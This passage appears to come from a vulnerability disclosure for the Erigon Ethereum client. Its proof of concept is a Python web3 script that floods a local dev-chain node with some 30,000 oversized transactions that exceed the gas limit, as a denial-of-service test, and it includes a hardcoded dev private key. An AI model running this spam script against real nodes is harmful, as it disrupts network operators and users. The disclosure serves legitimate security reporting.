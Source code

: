 * https://github.com/erigontech/erigon/releases/tag/v3.0.0-alpha7

## Proof of Concept

## Proof of Concept

For simplicity, we spin up an Erigon dev chain according to the instructions, detailed in the documentation: https://github.com/erigontech/erigon/blob/release/2.60/DEV\_CHAIN.md .

**Note:** the test does not demonstrate the worst scenario, as the tx size limit has not been reached and the blob transaction is not used.

1. Submit spam transaction using Python web3 script with gas limit 300\_000\_000 (> block gas limit 30M):

```
from web3 import Web3
from eth_account import Account
import os


# Connect to local node
w3 = Web3(Web3.HTTPProvider('http://localhost:8545'))


# Your private key (better to use environment variable)
private_key = '26e86e45f6fc45ec6e2ecd128cec80fa1d1505e5507dcd2ae58c3130a7a97b48'  
account = Account.from_key(private_key)

initial_data_size = 100_000  # tx data size
data = os.urandom(initial_data_size)


for n in range(30010):
    # Prepare transaction
    transaction = {
        'nonce': w3.eth.get_transaction_count(account.address) + n,
        'to': '0xa94f5374Fce5edBC8E2a8697C15331677e6EbF0B',
        'value': w3.to_wei(0.0, 'ether'),  # sending 1 ETH
        'gas': 300000000,
        'gasPrice': w3.eth.gas_price,
        'chainId': w3.eth.chain_id,
        'data': data
    }


    # Sign transaction
    signed_txn = w3.eth.account.sign_transaction(transaction, private_key)


    # Send transaction
    tx_hash = w3.eth.send_raw_transaction(signed_txn.rawTransaction)
```

